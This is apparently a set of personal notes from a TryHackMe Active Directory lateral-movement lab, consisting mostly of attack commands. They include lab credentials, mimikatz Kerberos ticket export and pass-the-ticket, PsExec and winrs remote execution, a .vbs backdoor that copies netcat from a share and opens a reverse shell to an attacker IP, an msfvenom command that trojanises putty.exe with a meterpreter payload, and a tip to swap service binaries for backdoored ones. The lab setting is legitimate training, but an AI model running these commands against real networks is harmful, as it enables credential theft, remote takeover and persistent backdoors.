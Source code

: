 User: ZA.TRYHACKME.COM\t2_felicia.dean
Password: iLov3THM!
`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

```
[0;1760f1]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi
```

```powershell
mimikatz # sekurlsa::tickets /export

mimikatz # kerberos::ptt [0;1760f1]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi

.\PsExec64.exe \\thmiis.za.tryhackme.com powershell.exe

or

winrs.exe -r:THMIIS.za.tryhackme.com cmd
```


### Abusing User Behavior

#### Abusing Writable Shares

Check if any remote resources are writable and could be manipulated

#### Backdooring .vbs Scripts

```c
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

#### Backdooring .exe Files

```c
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Stealth Idea: Replace .exe of service with backdoored version 
```powershell
Get-ChildItem -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\' | ForEach-Object {
    $props = Get-ItemProperty -Path $_.PsPath
    [PSCustomObject]@{
        ServiceName = $_.PSChildName
        Start       = $props.Start
        DisplayName = $props.DisplayName
        ImagePath   = $props.ImagePath
    }
} | Format-Table -AutoSize
```

#### RDP Hijacking

SYSTEM on 2016 or earlier, takeover without password

